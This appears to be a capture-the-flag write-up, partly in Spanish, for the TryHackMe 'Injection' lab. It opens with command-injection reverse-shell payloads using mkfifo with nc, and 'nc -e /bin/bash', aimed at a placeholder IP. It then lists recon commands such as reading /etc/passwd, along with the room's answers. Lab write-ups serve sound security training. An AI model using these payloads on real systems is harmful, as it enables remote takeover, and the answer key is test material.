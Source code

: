 # TryHackMe-Injection

reverse shell

; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f
  
o simplemente
  
;nc -e /bin/bash
  
1)What strange text file is in the website root directory? 
  
  ls
  
  el archivo es drpepper.txt
  
2) How many non-root/non-service/non-daemon users are there?
  
  cat /etc/passwd
  
  0
  
3)What user is this app running as?
  
  whoami
  
  www-data
  
4)What is the user's shell set as?
  
  awk -F: -v user="www-data" '$1 == user {print $NF}' /etc/passwd
  
  /usr/sbin/nologin
  
5) What version of Ubuntu is running?

  lsb_release -a
  
  18.04.4
  
6) Print out the MOTD.  What favorite beverage is shown?
  
    cat /etc/update-motd.d/00-header (este lo busqué porque no tenía idea de como hacerlo)
  
    DR PEPPER 

